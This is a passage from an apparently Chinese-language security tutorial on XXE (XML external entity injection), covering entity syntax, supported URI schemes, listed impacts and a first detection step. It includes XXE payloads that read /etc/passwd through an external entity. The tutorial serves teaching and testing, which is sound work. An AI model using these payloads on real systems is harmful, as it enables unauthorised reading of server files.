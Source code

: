 ```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
  <!ENTITY % name SYSTEM "file:///etc/passwd">
  %name;
]>
```

`%name`（实体参数）是在DTD中被引用的，而`&name`（其余实体）是在xml文档中被引用的

由于xxe漏洞主要是利用了DTD引用外部实体导致的漏洞，那么重点看下能引用哪些类型的外部实体

### 外部实体

```dtd
<!ENTITY 实体名称 SYSTEM "URI/URL"> <!--语法声明-->

<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd"> <!--实例-->

<author>&writer;</author> <!--实体引用-->
```

URL中能写入的外部实体类型为：

主要的有file、http、https、ftp等等，当然不同的程序支持的不一样：

![](https://thief.one/upload_image/20170620/1.png)

实例

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
    <!ENTITY content SYSTEM "file:///etc/passwd">]>
<foo>
        <value>&content;</value> 
</foo>
```

## 0x02 XXE漏洞

### 简介

XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害

xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件

### XXE漏洞检测

**第一步：**检测XML是否会被成功解析

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY name "my name is qiqi">]>
<root>&name;</root>
```
